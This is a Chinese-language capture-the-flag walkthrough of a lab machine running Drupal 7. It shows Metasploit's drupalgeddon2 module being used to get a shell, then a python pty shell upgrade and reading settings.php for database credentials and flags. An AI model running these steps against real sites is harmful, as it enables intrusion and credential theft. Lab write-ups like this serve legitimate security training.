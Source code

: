 访问 80 端口，查看 CMS 版本。

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JUmicyPea7QkS9RrYbGicTjbAic0MBFkFictvmiccqE1DU1lzLr83cHqNZajicz2RNWUjTFfojmpg83c1mw/640?wx_fmt=png)

```
Server：Apache/2.2.22 (Debian)
Vary：Accept-Encoding
X-Generator ：Drupal 7 (http://drupal.org)
X-Powered-By ：PHP/5.4.45-0+deb7u14
```

_**No.4  
**_

_**漏洞利用**_

**获取 flag1**

1. 在 msf 中看看有没有 Drupal 7 的 exp

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JUmicyPea7QkS9RrYbGicTjbA6C4BktOr61iczQCB1Flcx0t5TTqCLpkIrBugydvVe8rY5WQXjQJyVcQ/640?wx_fmt=png)

使用 exploit/unix/webapp/drupal_drupalgeddon2 模块打，配置该模块。

```
Use exploit/unix/webapp/drupal_drupalgeddon2
Show options //查看需要配置项
```

设置远程主机的 IP 为靶机的 IP 地址

```
set rhosts 192.168.188.156
```

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JUmicyPea7QkS9RrYbGicTjbAicWvZP1wGhX8BKfqPkkmHd55peIoFDA0fvTRRwFxhfWC3mqZDehk60g/640?wx_fmt=png)

开始利用

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JUmicyPea7QkS9RrYbGicTjbAXn3qPP2ia3A9R21c2xeJrCIibSibSde0LcW7lBh0nPUS2LokvXricP2jBQ/640?wx_fmt=png)

使用 ls 查看目录，拿到 flag1.txt

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JUmicyPea7QkS9RrYbGicTjbAxFeibUP8TeCaeXZmjZSic9MsKU6enydY5IUbytiaxYWJuD9a1EfricQWpA/640?wx_fmt=png)

**获取 flag2**

看看 flag 文件，应该有提示信息。

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JUmicyPea7QkS9RrYbGicTjbADT5DVskMjxw5khGevbhPdGtkoyZIZxGBztVNKAIN9rdU9jl2ASB62Q/640?wx_fmt=png)

按照提示信息，去看看它的配置文件。文件在 sites/default/setting.php 中  
首先进入交互式 shell：python -c 'import pty; pty.spawn("/bin/bash")' 。//ma 耶成功了，注意大小写啊

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JUmicyPea7QkS9RrYbGicTjbAeWTr37xzjMRibtSiblusHPkm2Ae22y6pJeZfj2aXwwRPqBTp2VsKYwPQ/640?wx_fmt=png)

使用 cat setting.php 命令打开，看到有数据库信息和 flag2。
